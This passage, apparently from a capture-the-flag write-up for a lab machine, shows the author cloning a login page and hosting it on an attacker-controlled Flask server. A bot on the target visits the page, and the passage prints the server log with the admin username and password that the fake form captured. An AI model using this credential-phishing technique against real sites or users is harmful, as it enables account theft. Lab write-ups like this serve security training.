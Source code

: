 

The links in `loginform.md` are all relative. This is not necessary to
proceed (it will work without CSS), but of course I'd like to fix it. I
could download those files, but I'll edit the HTML to point back at
Developer (final file [here](/files/developer-loginform.md.txt)). Now
the page looks great:

![](/img/image-20210714062827307.png)

Now I can submit `http://10.10.14.6/writeup` as a writeup, and it shows
up on my profile for a second, and then there's a request at flask:



    10.10.10.120 - - [15/Jul/2021 14:06:20] "GET /writeup HTTP/1.1" 200 -
    10.10.10.120 - - [15/Jul/2021 14:06:20] "GET /favicon.ico HTTP/1.1" 404 -
    10.10.10.120 - - [15/Jul/2021 14:06:20] "GET /accounts/login/ HTTP/1.1" 200 -
    10.10.10.120 - - [15/Jul/2021 14:06:21] "GET /img/favicon.ico HTTP/1.1" 404 -
    10.10.10.120 - - [15/Jul/2021 14:06:21] "POST /accounts/login HTTP/1.1" 308 -
    csrfmiddlewaretoken: Example1
    login: admin
    password: SuperSecurePassword@HTB2021
    10.10.10.120 - - [15/Jul/2021 14:06:21] "POST /accounts/login/ HTTP/1.1" 302 -
    10.10.10.120 - - [15/Jul/2021 14:06:22] "GET /accounts/login/ HTTP/1.1" 200 -
